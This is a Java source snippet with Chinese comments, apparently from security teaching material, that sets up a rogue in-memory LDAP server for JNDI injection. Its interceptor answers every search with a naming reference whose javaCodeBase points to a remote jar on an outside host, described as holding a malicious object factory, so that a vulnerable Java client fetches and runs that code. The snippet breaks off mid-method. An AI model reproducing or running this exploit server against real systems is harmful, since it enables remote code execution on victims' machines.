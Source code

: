 ```java
   public static final String LDAP_ENTRY_NAME = "test";

   // 获取LDAP服务地址
   public static String LDAP_URL = "ldap://" + BIND_HOST + ":" + SERVER_PORT + "/" + LDAP_ENTRY_NAME;

   // 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
   public static final String REMOTE_REFERENCE_JAR = "http://p2j.cn/tools/jndi-test.jar";

   // 设置LDAP基底DN
   private static final String LDAP_BASE = "dc=javasec,dc=org";

   public static void main(String[] args) {
      try {
         // 创建LDAP配置对象
         InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);

         // 设置LDAP监听配置信息
         config.setListenerConfigs(new InMemoryListenerConfig(
               "listen", InetAddress.getByName(BIND_HOST), SERVER_PORT,
               ServerSocketFactory.getDefault(), SocketFactory.getDefault(),
               (SSLSocketFactory) SSLSocketFactory.getDefault())
         );

         // 添加自定义的LDAP操作拦截器
         config.addInMemoryOperationInterceptor(new OperationInterceptor());

         // 创建LDAP服务对象
         InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);

         // 启动服务
         ds.startListening();

         System.out.println("LDAP服务启动成功,服务地址：" + LDAP_URL);
      } catch (Exception e) {
         e.printStackTrace();
      }
   }

   private static class OperationInterceptor extends InMemoryOperationInterceptor {

      @Override
      public void processSearchResult(InMemoryInterceptedSearchResult result) {
         String base  = result.getRequest().getBaseDN();
         Entry  entry = new Entry(base);

         try {
            // 设置对象的工厂类名
            String className = "com.anbai.sec.jndi.injection.ReferenceObjectFactory";
            entry.addAttribute("javaClassName", className);
            entry.addAttribute("javaFactory", className);

            // 设置远程的恶意引用对象的jar地址
            entry.addAttribute("javaCodeBase", REMOTE_REFERENCE_JAR);

            // 设置LDAP objectClass
            entry.addAttribute("objectClass", "javaNamingReference");

            result.sendSearchEntry(entry);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
         } catch (Exception e1) {
            e1.printStackTrace();
         }
```